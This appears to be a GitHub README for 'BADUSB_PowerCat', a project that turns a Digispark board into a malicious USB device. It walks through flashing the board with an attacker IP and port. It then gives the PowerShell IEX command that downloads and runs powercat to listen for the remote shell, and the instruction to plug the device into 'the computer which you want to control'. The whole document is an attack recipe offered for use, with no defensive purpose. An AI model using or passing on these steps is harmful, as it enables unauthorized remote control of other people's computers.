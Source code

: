 BADUSB_PowerCat
===============
This Project is a gift for the 22th anniversary celebration of BY2HIT!  
![0](http://www.by2hit.net/wp-content/uploads/2015/05/logo.png) 

Make a BADUSB
-------------

1.Download the appropriate Arduino package at the Arduino.cc website: https://www.arduino.cc/en/Main/Software  
  
2.Download and install the drivers https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip  
  
3.Unzip and run “Install Drivers” (on 32bit systems) or “DPInst64” (on 64bit systems).  
  
4.In the Arduino application go to the “File” menu and select “Preferences”.  
  In the box labeled “Additional Boards Manager URLs” enter: http://digistump.com/package_digistump_index.json  
![1](http://digistump.com/wiki/_media/digispark/tutorials/entry.jpg)  
  
5.Go to the “Tools” menu and then the “Board” submenu - select “Boards Manager” and then from the type drop down select “Contributed”:  
  Select the “Digistump AVR Boards” package and click the “Install” button.  
![2](http://digistump.com//wiki/_media/digispark/tutorials/digispark_install.gif)  
  
6.Open BADUSB.ino change "127.0.0.1" into your IP and Change "443" into the port which you want to use. 
  
7.Upload it.  
  
8.Plug in Digispark.  
  
9.Now, the Digispark become the BADUSB.

Use it
------  

1.Open PowerShell  
  
2.Input"IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')"  

3.Input"powercat -l -p 443" (Change "443" into the port which you set)  
  
4.Plug BADUSB in the computer which you want to control.  
  
5.Want a minute.
  
Done!